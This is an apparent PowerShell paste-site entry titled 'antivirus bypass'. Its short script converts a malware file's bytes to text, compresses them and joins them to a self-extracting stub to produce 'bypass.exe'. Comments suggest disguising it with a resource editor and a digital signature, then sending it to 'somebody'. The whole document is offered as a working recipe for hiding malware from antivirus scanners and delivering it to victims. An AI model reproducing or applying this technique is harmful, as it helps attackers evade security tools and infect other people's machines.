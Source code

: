 ﻿---
pid:            4951
parent:         0
children:       
poster:         greg zakharov
title:          antivirus bypass
date:           2014-03-02 15:52:24
format:         posh
---

# antivirus bypass

### [download](4951.ps1)"



```posh
[String]::Join(' ', [IO.File]::ReadAllBytes(#malware)) | Out-File -enc ASCII raw
&7za a -mx9 raw.zip raw
&cmd copy /b raw.zip + ZipSFX + ReverseActions bypass.exe
#optional:
#1) edit bypass.exe with resource editor
#2) add digital signature
#at last do not forget send it somebody
```
